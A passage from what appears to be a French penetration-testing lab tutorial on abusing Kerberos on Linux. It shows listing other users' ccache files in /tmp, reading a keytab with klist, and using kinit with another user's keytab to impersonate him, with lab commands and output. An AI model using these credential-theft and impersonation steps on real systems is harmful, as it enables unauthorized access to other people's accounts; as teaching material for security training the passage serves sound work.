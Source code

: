 Comme mentionné précédemment, les fichiers ccache sont situés, par défaut, dans /tmp. Nous pouvons rechercher des utilisateurs qui sont connectés à l'ordinateur, et si nous obtenons un accès en tant que root ou utilisateur privilégié, nous pourrions usurper l'identité d'un utilisateur en utilisant son fichier ccache pendant qu'il est encore valide.

### Recherche de fichiers ccache dans /tmp
```
david@inlanefreight.htb@linux01:~$ ls -la /tmp

total 68
drwxrwxrwt 13 root                     root                           4096 Oct  6 16:38 .
drwxr-xr-x 20 root                     root                           4096 Oct  6  2021 ..
-rw-------  1 julio@inlanefreight.htb  domain users@inlanefreight.htb 1406 Oct  6 16:38 krb5cc_647401106_tBswau
-rw-------  1 david@inlanefreight.htb  domain users@inlanefreight.htb 1406 Oct  6 15:23 krb5cc_647401107_Gf415d
-rw-------  1 carlos@inlanefreight.htb domain users@inlanefreight.htb 1433 Oct  6 15:43 krb5cc_647402606_qd2Pfh
```

## Abus de fichiers KeyTab
En tant qu'attaquants, nous pouvons avoir plusieurs utilisations pour un fichier keytab. La première chose que nous pouvons faire est de se faire passer pour un utilisateur en utilisant kinit. Pour utiliser un fichier keytab, nous devons savoir pour quel utilisateur il a été créé. klist est une autre application utilisée pour interagir avec Kerberos sous Linux. Cette application lit les informations d'un fichier keytab. Voyons cela avec la commande suivante :

### Liste des informations sur le fichier keytab
```
david@inlanefreight.htb@linux01:~$ klist -k -t 

/opt/specialfiles/carlos.keytab 
Keytab name: FILE:/opt/specialfiles/carlos.keytab
KVNO Timestamp           Principal
---- ------------------- ------------------------------------------------------
   1 10/06/2022 17:09:13 carlos@INLANEFREIGHT.HTB
```

Le ticket correspond à l'utilisateur Carlos. Nous pouvons maintenant emprunter l'identité de l'utilisateur avec kinit. Confirmons quel ticket nous utilisons avec klist puis importons le ticket de Carlos dans notre session avec kinit.


### Usurper l'identité d'un utilisateur avec un keytab
```
david@inlanefreight.htb@linux01:~$ klist 

Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: david@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:02:11  10/07/22 03:02:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:02:11
david@inlanefreight.htb@linux01:~$ kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
david@inlanefreight.htb@linux01:~$ klist 
Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: carlos@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:16:11  10/07/22 03:16:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:16:11
```
Nous pouvons tenter d'accéder au dossier partagé \\dc01\carlos pour confirmer notre accès.
